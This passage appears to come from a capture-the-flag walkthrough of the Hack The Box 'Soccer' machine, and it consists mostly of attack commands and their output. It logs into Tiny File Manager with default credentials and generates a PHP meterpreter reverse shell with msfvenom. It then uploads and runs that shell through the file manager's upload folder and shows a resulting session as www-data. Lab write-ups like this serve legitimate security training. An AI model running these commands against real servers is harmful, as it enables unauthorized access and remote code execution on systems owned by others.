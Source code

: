 ```
[####################] - 11s    20469/20469   1888/s  http://soccer.htb/tiny/uploads/

┌──(magicrc㉿perun)-[~/attack/HTB Soccer]
└─$ curl -s http://soccer.htb/tiny/ | grep -oP 'data-version=\"\K.[^"]+'
2.4.3
```

#### Gain access using default credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Soccer]
└─$ curl -Ls -c cookies.txt http://soccer.htb/tiny/tinyfilemanager.php -d "fm_usr=admin&fm_pwd=admin@123" | grep -q "Login failed" || echo "OK" 
OK
```

#### Generate `php/meterpreter_reverse_tcp` reverse shell
```
┌──(magicrc㉿perun)-[~/attack/HTB Soccer]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1)
msfvenom -p php/meterpreter_reverse_tcp LHOST=$LHOST LPORT=4444 -f raw -o shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 34925 bytes
Saved as: shell.php
```

#### Start Metasploit and listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Soccer]
└─$ msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload php/meterpreter_reverse_tcp; run"
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => php/meterpreter_reverse_tcp
```

#### Upload and execute generated reverse shell
We have write permissions to `/tiny/uploads`
```
┌──(magicrc㉿perun)-[~/attack/HTB Soccer]
└─$ curl -s -b cookies.txt http://soccer.htb/tiny/tinyfilemanager.php -F "p=tiny/uploads" -F "fullpath=shell.php" -F "file=@shell.php;type=application/x-php" -o /dev/null && \
curl -s http://soccer.htb/tiny/uploads/shell.php -o /dev/null
```

#### Gain foothold with reverse shell connection
```
[*] Meterpreter session 1 opened (10.10.14.157:4444 -> 10.129.217.215:45036) at 2025-06-22 15:09:12 +0200

meterpreter > getuid
Server username: www-data
```
